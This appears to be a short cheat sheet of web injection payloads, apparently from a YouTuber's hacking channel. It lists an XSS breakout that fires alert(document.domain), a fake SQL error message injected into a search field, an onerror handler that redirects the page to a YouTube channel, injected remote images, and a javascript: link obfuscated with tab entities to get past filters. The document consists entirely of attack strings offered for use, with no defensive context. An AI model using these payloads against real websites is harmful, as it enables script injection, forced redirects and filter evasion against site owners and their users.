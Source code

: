 Basic XSS:
       |
       |_ "><img src=x onerror=alert(document.domain) >

ERROR based injection :
                   |
                   |_ '<font color="red">ERROR 1064 (42000): Rohith had made an error in your Search Field;.jpg'

Open Redirect : SUBSCRIBE , LIKE & SHARE
          |
          |_ "><img src=x onerror="window.location.href='https://www.youtube.com/@hackwithrohit-new-2k';">

                               
IMAGE INJECTION :
            |
            |_ <img src=https://cdn.pixabay.com/animation/2023/09/07/21/54/21-54-00-174_512.gif >

               "><img src=https://cdn.pixabay.com/animation/2023/09/07/21/54/21-54-00-174_512.gif >


CONSOLE LOG :
         |
         |_ <a href="j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t:console.log(1337)">XSS</a>
